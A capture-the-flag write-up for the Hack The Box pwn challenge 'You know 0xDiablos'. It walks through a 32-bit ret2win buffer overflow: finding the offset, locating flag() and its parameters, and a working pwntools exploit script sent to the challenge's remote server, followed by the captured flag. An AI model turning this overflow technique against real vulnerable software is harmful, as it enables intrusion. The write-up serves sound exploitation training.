 # You know 0xDiablos
> Write-up author: jon-brandy
## DESCRIPTION:
I missed my flag

## HINT:
- NONE
## STEPS:
1. First unzip the file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207644786-2b71a2bc-31f0-41b8-a85e-cd0c08f73f45.png)


2. Let's try to unzip it using `7z`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207645014-3ceb1439-e40d-401c-9bac-cf5ff74e6319.png)


3. Check the file type and the binary's protection.

> FILE TYPE

![image](https://user-images.githubusercontent.com/70703371/207645137-32ecbc90-2592-4b19-b6df-dd9f5df8ce9f.png)


```
32 Bit file, dynamically linked and not stripped.
```

> FILE'S PROTECTION

![image](https://user-images.githubusercontent.com/70703371/207645250-d4f9fb33-affa-423e-9ced-5d3e598f6897.png)


4. Now let's make the file executeable first by run `chmod +x vuln`, then run the file.

> INPUT ANY LENGTH OF A'S - RESULT

![image](https://user-images.githubusercontent.com/70703371/207646431-c05472b6-a7a9-4d81-b232-86bf038355c9.png)


5. As we know, since there's **no canary found**, then we can overflow the buffer.
6. I opened GDB and copied 1024 cyclic pattern, then run the file.

> GDB

![image](https://user-images.githubusercontent.com/70703371/207648015-176a3305-6214-49c3-93e5-1b13789cd213.png)


![image](https://user-images.githubusercontent.com/70703371/207648543-ac71b49a-166f-4bb2-801a-5b79be6a2c2b.png)


7. Copy the 4 chars in **EIP** , then do `cyclic -l waab`

```
EIP stands for Extended Instruction Pointer.
```

![image](https://user-images.githubusercontent.com/70703371/207649036-6d15d6e0-d67f-4ff3-813a-5594fa0f3660.png)


![image](https://user-images.githubusercontent.com/70703371/207649107-2487380c-4c9c-48ff-b372-032d07887552.png)


8. Now we know, we need to add 188 bytes as the padding.
9. Next, let's decompile the binary using ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207650199-f2fbdcf8-f495-478a-af85-edf6cbd5b5cb.png)


10. Check the `flag()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207650433-f2e6fe7e-7228-4f7c-829f-2c9ed0468f99.png)


11. Since the `flag()` function has parameters, then we can conclude it's a ret2win concept but with parameters.
12. To do ret2win with param in 32 Bit, the payload shall look like this:

```
padding + flagAddr + returnAddress + param1 + param2
```

13. Copy the param1 and param2 value.

> PARAM 1 & PARAM 2 (BOTH IN CHAR FORMAT)

![image](https://user-images.githubusercontent.com/70703371/207764429-ab1cbfe6-071b-4653-b900-73dd82c01f24.png)


14. For the return address, we want to return to the main() function just for safety. But actually you can add 4 bytes of characters as a junk.
15. So this is the final script:

```py
from pwn import *
import os

'''
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


#gdbscript = '''
#init-pwndbg
#continue
'''.format(**locals())
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
'''

os.system('clear')

context.log_level = 'debug'

sh = remote('157.245.35.145', 32410)
flagAddr = 134517218 # 0x80491e2
param1 = 3735928559 # 0xdeadbeef
param2 = 3235827725 # 0xc0ded00d
p = b'A' * 188 
p += p32(flagAddr)
p += p32(134517425) #0x80492b1 
p += p32(param1)
p += p32(param2)
sh.recvuntil("\n")
sh.sendline(p)

sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/207765889-37a0079a-581a-4746-b1c9-673a1e26fa48.png)


16. Got the flag!


## FLAG

```
HTB{0ur_Buff3r_1s_not_healthy}
```

